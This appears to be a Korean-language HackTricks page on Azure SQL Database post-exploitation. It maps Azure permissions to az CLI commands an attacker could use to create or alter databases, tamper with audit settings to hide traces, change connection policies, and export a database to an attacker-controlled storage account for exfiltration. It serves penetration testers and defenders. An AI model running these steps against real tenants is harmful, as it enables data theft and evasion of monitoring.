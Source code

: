 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

SQL Database에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/databases/read", "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/databases/write"

이 권한을 통해 공격자는 손상된 환경 내에서 데이터베이스를 생성하고 업데이트할 수 있습니다. 이 사후 활용 활동은 공격자가 악성 데이터를 추가하거나 데이터베이스 구성을 수정하거나 추가적인 지속성을 위한 백도어를 삽입할 수 있게 하여, 운영을 방해하거나 추가적인 악의적인 행동을 가능하게 할 수 있습니다.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
### "Microsoft.Sql/servers/elasticPools/write" && "Microsoft.Sql/servers/elasticPools/read"

이 권한을 통해 공격자는 손상된 환경 내에서 elasticPools를 생성하고 업데이트할 수 있습니다. 이 사후 활용 활동은 공격자가 악성 데이터를 추가하거나 데이터베이스 구성을 수정하거나 추가적인 지속성을 위한 백도어를 삽입할 수 있게 하여, 운영을 방해하거나 추가적인 악의적인 행동을 가능하게 할 수 있습니다.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### "Microsoft.Sql/servers/auditingSettings/read" && "Microsoft.Sql/servers/auditingSettings/write"

이 권한을 사용하면 Azure SQL Server의 감사 설정을 수정하거나 활성화할 수 있습니다. 이는 공격자나 권한이 있는 사용자가 감사 구성을 조작하여 흔적을 감추거나 감사 로그를 자신이 제어하는 위치로 리디렉션할 수 있게 할 수 있습니다. 이는 보안 모니터링을 방해하거나 행동을 추적할 수 있게 할 수 있습니다. 주의: Blob Storage를 사용하여 Azure SQL Server에 대한 감사를 활성화하려면 감사 로그를 저장할 수 있는 스토리지 계정을 연결해야 합니다.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### "Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read", "Microsoft.Sql/servers/connectionPolicies/read" && "Microsoft.Sql/servers/connectionPolicies/write"

이 권한을 사용하면 Azure SQL Server의 연결 정책을 수정할 수 있습니다. 이 기능은 서버 수준의 연결 설정을 활성화하거나 변경하는 데 악용될 수 있습니다.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### "Microsoft.Sql/servers/databases/export/action"

이 권한을 사용하면 Azure SQL Server에서 스토리지 계정으로 데이터베이스를 내보낼 수 있습니다. 이 권한을 가진 공격자 또는 승인된 사용자는 데이터베이스에서 민감한 데이터를 내보내어 자신이 제어하는 위치로 유출할 수 있으며, 이는 상당한 데이터 유출 위험을 초래합니다. 이를 수행하기 위해서는 스토리지 키를 아는 것이 중요합니다.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### "Microsoft.Sql/servers/databases/import/action"

이 권한을 사용하면 Azure SQL Server에 데이터베이스를 가져올 수 있습니다. 이 권한을 가진 공격자 또는 승인된 사용자는 악성 또는 조작된 데이터베이스를 업로드할 수 있습니다. 이는 민감한 데이터에 대한 제어를 얻거나 가져온 데이터베이스 내에 유해한 스크립트나 트리거를 삽입하는 결과를 초래할 수 있습니다. 추가로 Azure의 자신의 서버로 가져올 수 있습니다. 참고: 서버는 Azure 서비스와 리소스가 서버에 접근할 수 있도록 허용해야 합니다.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri "https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac"
```
{{#include ../../../banners/hacktricks-training.md}}
